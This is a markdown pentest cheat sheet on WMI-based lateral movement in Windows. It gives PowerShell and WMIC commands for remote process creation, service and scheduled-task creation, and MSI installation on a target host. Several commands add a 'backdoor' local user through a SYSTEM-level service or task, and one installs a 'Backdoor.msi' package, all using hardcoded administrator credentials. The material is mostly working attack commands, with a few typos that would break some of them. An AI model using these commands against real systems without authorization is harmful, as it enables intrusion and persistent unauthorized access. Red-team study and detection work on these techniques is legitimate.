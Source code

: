 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#wmi
[WMI](../../Windows/Windows%20Internals/Uncategorized/WMI.md)
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### WMIC
```powershell
# For legacy system using wmic.exe
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete
```
# Remote Schedule Task Creation
- Required Group Membership: Administrators
### Poweshell
```powershell
# Create command and argument
$Command = "cmd.exe"
$Args = "/c net user backdoor pass /add"

# Create and Run schedule task
$Action = New-ScheduleTaskAction -CimSession $session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "backdoor"
Start-ScheduledTask -CimSession $Session -TaskName "backdoor"

Unregister-ScheduledTask -CimSession $session -TaskName "backdoor"
```
# Installing MSI packages
- MSI packages can be installed using WIM using the `Win32_Product` class's static `Install` method 
### Powershell
```powershell
Invoke-CimMethod -CimSession $session -Class Win32_Product -MethodName Install -Arugments @{
	PackageLocation = "C:\Windows\Backdoor.msi";
	Options = "";
	AllUsers = $false;
}
```
### WMIC
```Powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
